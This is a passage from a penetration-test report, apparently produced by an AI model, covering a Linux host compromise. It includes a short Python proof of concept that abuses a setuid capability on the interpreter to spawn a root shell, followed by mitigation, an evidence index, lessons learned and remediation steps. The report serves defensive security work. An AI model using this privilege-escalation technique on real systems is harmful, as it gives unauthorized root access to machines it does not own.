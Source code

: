 **Exploit capability (PoC)**
```bash
python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
# spawned root shell
```

**Capability removal (mitigation)**
```bash
sudo setcap -r /usr/bin/python3.8
getcap /usr/bin/python3.8   # verify no capabilities are present
```

---

## 10. Appendix B — Evidence index
- `snapshotX.pcap` — captured PCAP used to extract FTP credentials (stored in secure evidence repo).  
- `nmap_initial` — nmap output file.  
- `linpeas.log` — linPEAS output showing file capabilities.  
- `ssh_session.log` — recorded session demonstrating the `nathan` foothold.  

*(Store all evidence files in a secure evidence repository with restricted access. Maintain chain-of-custody if moving into formal incident response.)*

---

## 11. Lessons learned & takeaways
- IDORs are low-effort but high-impact — always validate object-level authorization.  
- Application artifacts (PCAPs, logs) can leak secrets — treat them as sensitive data.  
- Credential reuse is an early attacker enabler — enforce unique credentials and MFA.  
- File capabilities are powerful and dangerous — avoid granting capabilities to general-purpose interpreters.  
- Automated tools (linPEAS) are useful for discovery but must be manually validated.

---

## 12. Next steps for leadership / engineering
1. Immediately block or restrict access to Security Snapshot PCAPs and implement authorization controls.  
2. Rotate affected credentials and disable compromised accounts.  
3. Remove unnecessary capabilities from interpreters and review capability usage across hosts.  
4. Schedule a remediation verification and follow-up internal pentest focusing on object-level authorization and artifact leakage.  
5. Provide developer guidance on secure handling of captured artifacts and rotate to secure transports for credentials.

---

*Report generated and formatted for leadership review. If you would like this exported to `.docx` or PDF, or prefer adding sanitized screenshots (Wireshark packets, linPEAS output), I can include them and regenerate the package.*


